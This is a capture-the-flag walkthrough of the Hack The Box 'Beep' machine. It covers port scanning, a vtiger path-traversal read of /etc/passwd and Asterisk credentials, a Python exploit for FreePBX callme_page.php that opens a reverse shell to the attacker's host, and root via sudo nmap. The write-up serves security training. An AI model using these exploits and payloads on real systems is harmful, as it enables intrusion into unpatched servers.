 # [Beep](https://app.hackthebox.eu/machines/5)

Start off with an couple of `nmap` scans:

```bash
sudo nmap -sS -sC -p1-65535      --open -Pn 10.10.10.7 # deep scan 
sudo nmap -sS -sC --top-ports=20 --open -Pn 10.10.10.7 # quick scan
```

![nmap](./beep/nmap.png)

There are quite a few ports open. A few of them have to do with email services:

- 25 SMTP (https://book.hacktricks.xyz/pentesting/pentesting-smtp)
- 110/995 POP3 (https://book.hacktricks.xyz/pentesting/pentesting-pop)
- 143/993 IMAP (https://book.hacktricks.xyz/pentesting/pentesting-imap)

To enumerate the website, run the following in the background:

- Using `gobuster` because the outdated SSL cert gives errors with `dirb` ...

```bash
sudo apt install gobuster
gobuster dir -k -e -r -w /usr/share/dirb/wordlists/common.txt -u https://10.10.10.7
nikto -h http://10.10.10.7 -nossl --maxtime=30s
```

Looking at the webpage shows the following:

![website](./beep/website.png)

A Google search says the following about Elastix:

> Elastix is an unified communications server software that brings  together IP PBX, email, IM, faxing and collaboration functionality. It  has a Web interface and includes capabilities such as a call center  software with predictive dialing.

A trying some default logins does not give any easy wins:

- `admin/admin`
- `admin/password`

`nikto` does not have any helpful output but `gobuster` has some interesting directories:

![gobuster](./beep/gobuster.png)

Trying `/admin` asks for a username/password and there are no easy wins here as well... But after denying the password prompt, the following page is displayed:

![admin](./beep/admin.png)

Now that there is a version tied to a service, looking for an exploit is a good next step:

![searchsploit_elastix](./beep/searchsploit_elastix.png)

Now that we know what version of FreePBX is running, it is likely that we have a version of Elastix that is <= 2.2.0 since FreePBX v2.10.0 is tied to Elastix 2.2.0. This means that exploit 38091 is a possible option. Looking at the exploit shows that it is trying to send a request to `/vtigercrm/phprint.php`:

```bash
searchsploit -m 38091
cat 38091.php | grep php 
```

Verifying this URI exists shows that it is valid:

```bash
wget --no-check-certificate https://10.10.10.7/vtigercrm/phprint.php
cat phprint.php
```

![wget](./beep/wget.png)

Trying this exploit does not work well though... However, browsing to `/vtigercrm` shows the following page:

![vtiger](./beep/vtiger.png)

This new page gives another service and version to look for an exploit for:

![searchsploit_vtiger](./beep/searchsploit_vtiger.png)

Exploit 18770 looks promising! The exploit says to try and browse to the following URL:

- https://www.exploit-db.com/exploits/18770

```bash
https://localhost/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00
```

 Trying this with the target IP of 10.10.10.7 shows the following:

![18770](./beep/18770.png)

It looks like there is a local user of `fanis`! With this access, looking for service configuration files with passwords is the next step. The file at `/etc/asterisk/manager.conf` should give the admin password:

- https://www.telecomworld101.com/PiaF/manager.conf.html

![admin_password](./beep/admin_password.png)

Now trying to login to Elastix with `admin` and `jEhdIekWmdjE` shows a valid admin dashboard:

![elastix_admin](./beep/elastix_admin.png)

After some manual enumeration of the website, the following version info is found:

![versions](./beep/versions.png)

Now that the version of Elastix is known, exploit 18650 seems more likely to work now. Copying that exploit over and inspecting it shows it as a GET request to a URI with a parameter that gets passed to the Asterisk Management Interface socket directly. 

- https://www.offensive-security.com/vulndev/freepbx-exploit-phone-home/

```bash
searchsploit -m 18650
cat 18650.py | grep http
```

This exploit requires a a valid `extension` value which can be found in the Elastix admin interface at `https://10.10.10.7/index.php?menu=control_panel` for the user `fanis`:

![extension](./beep/extension.png)

With all this information, the exploit should work. Before executing it, the exploit code can be cleaned up to be more clear:

```python
import sys
import ssl
import urllib.parse
import urllib.request

if len(sys.argv) != 5:
  print(f'usage: python3 {sys.argv[0]} <rhost> <lhost> <lport> <extension>')
  exit(-1)

URL = f'https://{sys.argv[1]}/recordings/misc/callme_page.php?action=c&callmenum={sys.argv[4]}'
# using a python reverse shell instead of the original perl one
CMD = f'python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{sys.argv[2]}",{sys.argv[3]}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\''
PAYLOAD_RAW = f'@from-internal/n\r\nApplication: system\r\nData: {CMD}\r\n\r\n'

print(f'[*] target is {URL}')
print(f'[*] encoded payload is "{urllib.parse.quote(PAYLOAD_RAW)}"')
# fix annoying errors due to site using TLS v1.0 ...
ctx = ssl.SSLContext(ssl.PROTOCOL_TLSv1)
with urllib.request.urlopen(URL + urllib.parse.quote(PAYLOAD_RAW), context=ctx) as r:
  print('[+] RESPONSE:')
  print(r.read().decode())

print('[+] DONE')
```

Executing this gives the reverse shell:

![exploit](./beep/exploit.png)

![user](./beep/user.png)

For privilege escalation, enumerating user permissions shows interesting values:

![sudo](./beep/sudo.png)

`nmap` is a known GTFO binary! Getting `root` is done by running `nmap` interactively:

- https://gtfobins.github.io/gtfobins/nmap/

```bash
sudo nmap --interactive
!sh # run at the interactive nmap prompt
python -c "import pty;pty.spawn('/bin/bash')" # get a TTY shell
```

![root](./beep/root.png)

